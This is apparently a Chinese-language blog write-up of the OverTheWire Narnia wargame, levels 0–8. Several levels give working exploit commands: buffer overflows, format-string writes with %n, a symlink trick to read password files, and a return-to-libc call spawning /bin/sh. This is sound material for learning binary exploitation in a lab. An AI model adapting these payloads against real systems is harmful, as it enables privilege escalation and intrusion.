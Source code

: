 ```yaml
---
title: Narnia
author: rk700
layout: post
redirect_from:
  - /writeup/2014/07/06/narnia
  - /writeup/2014/07/06/narnia/
tags:
  - OverTheWire
  - exploit
---
```

*   **Narnia0**  
    要改写内容很简单，20个填充字符加上0xdeadbeef，但问题是用perl输入后sh立刻就退出了……后来在网上搜了下，用cat可以读用户输入，然后输出通过管道送到sh那里  
    `(perl -e 'print "A"x20 . "\xef\xbe\xad\xde"'; cat) | ./narnia0`  
*   **Narnia1**  
    只需要把shellcode放到环境变量里就可以了，而且inovke bash和sh都可以用
*   **Narnia2**  
    `strcpy`没检查
*   **Narnia3**  
    ofile是char[]，可写，所以我们用很长的ifile覆盖他：  
    <pre> ln -sf /etc/narnia_pass/narnia4 /tmp/nabla/tmp/nabla/pass/narnia/narnia3 `perl -e 'print "/."x11 . "/tmp/nabla" . "/tmp/nabla/pass"'` </pre>
*   **Narnia4**  
    把环境变量清空了，没关系，shellcode放argv[1]就行
*   **Narnia5**  
    用了`snprintf`，所以单纯的覆盖是不可能了。但存在format string
    不知道为什么，这次用perl的话位置参数不能用，估计是$的转义问题。没办法，是第9个参数，所以前8个也都用了:  
    `` /narnia/narnia5 `perl -e 'print "\x1c\xd7\xff\xff" . "%62x"x8 . "%n"'` ``  
*   **Narnia6**  
    这道题想复杂了，晕……
    首先是发现strcpy可以覆盖函数指针fp的值，于是由此可以跳到我们想要的地方；但还有一个限制，即最高位的byte不能是0xff。这样就只能return to libc了。而且此时的栈顶是一个我们提供的字符串。我想复杂了，想找一个`call $eax`或`jmp $eax`的，但后来在网上看，直接用`system()`就可以了。于是用gdb，print system得到其地址。
        
    还有一个微妙之处，是先strcpy下面的，再上面的。这样第二次strcpy就可以再覆盖掉第一次的。这点比较重要，因为给`system`的参数是下面的，而strcpy下面的时后面还会跟上`system`的地址。于是字符串`/bin/sh`要在第二次的strcpy写上去
        
    综上，命令为  
    <pre>/narnia/narnia6 `perl -e 'print "A"x8 . "\x50\xa2\xe6\xf7"'` "12345678/bin/sh"</pre>
*   **Narnia7**  
    和前面的一道题很像，还是snprintf的format string. 另外这里perl的$要用\\$来转义。
    在确定buffer是第几个参数时，我是用gdb看的，当然可以从代码直接算出来，注意`mov %esp, %ebp`后又push了两个，所以`sub $0xa0, %esp`后esp与ebp相距0xa8
*   **Narnia8**  
    这道题是一个byte一个byte地复制，可以修改返回地址。唯一要注意的是，由于src字符串保存在buffer的下方，所以要修改返回地址就必然要经过src，而我们要保证经过时src不变。具体地，先打印出src的地址，然后让src的内容在那个位置等于src的地址

    shellcode放在环境变量里了
